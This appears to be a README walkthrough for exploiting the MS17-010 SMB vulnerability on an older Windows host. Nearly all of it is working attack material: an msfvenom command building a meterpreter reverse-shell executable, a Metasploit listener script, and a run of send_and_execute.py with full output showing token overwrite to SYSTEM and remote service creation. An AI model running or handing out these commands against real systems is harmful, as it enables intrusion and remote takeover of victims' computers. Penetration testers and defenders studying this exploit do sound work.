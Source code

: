First we make an executable meterpreter payload, and generate an .rc script for our metasploit listener. 
```
$  ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.69.64 LPORT=4443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
$ cat x2.rc 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 4443
set lhost 192.168.69.64
set ExitOnSession false
exploit
```
Start the listener
```
$ ./msfconsole -qr x2.rc 
[*] Processing x2.rc for ERB directives.
resource (x2.rc)> use exploit/multi/handler
resource (x2.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (x2.rc)> set lport 4443
lport => 4443
resource (x2.rc)> set lhost 192.168.69.64
lhost => 192.168.69.64
resource (x2.rc)> set ExitOnSession false
ExitOnSession => false
resource (x2.rc)> exploit
```
Launch the exploit so that the x2 runs our meterpreter payload. 
```
$ python send_and_execute.py 192.168.69.112 ms17-010.exe
Trying to connect to 192.168.69.112:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x856d0da8
SESSION: 0xe19b9268
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1a19d28
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1a19dc8
overwriting token UserAndGroups
Sending file UI4KCA.exe...
Opening SVCManager on 192.168.69.112.....
Creating service EwFi.....
Starting service EwFi.....
The NETBIOS connection with the remote host timed out.
Removing service EwFi.....
ServiceExec Error on: 192.168.69.112
nca_s_proto_error
Done
```
